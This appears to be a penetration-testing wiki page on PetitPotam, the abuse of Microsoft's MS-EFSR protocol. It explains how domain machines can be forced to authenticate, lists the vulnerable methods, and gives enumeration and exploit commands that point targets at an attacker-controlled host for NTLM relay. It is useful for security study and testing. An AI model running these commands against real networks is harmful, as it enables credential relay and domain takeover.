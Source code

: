# MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Lionel GILLES](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. **The coerced authentications are made over SMB**. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([partially patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the target is vulnerable to PetitPotam.

```bash
crackmapexec smb $IP -u $USER -p $PASSWORD -M petitpotam -o PIPE=netlogon
```
{% endtab %}

{% tab title="Exploit" %}
An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
petitpotam.py -method AddUsersToFile -pipe netlogon $TARGET_IP '\\$ATTACKER_IP\share\foo'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a NULL session could potentially be used to trigger that bug (if allowed by the target). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

{% hint style="success" %}
For the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can be required, especially if the target is patched against MS-EFSR abuse (which doesn't completely mitigate the vulnerability). In both tools mentioned above, this is enabled by default only on topotam's one.
{% endhint %}

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://github.com/ly4k/PetitPotam" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
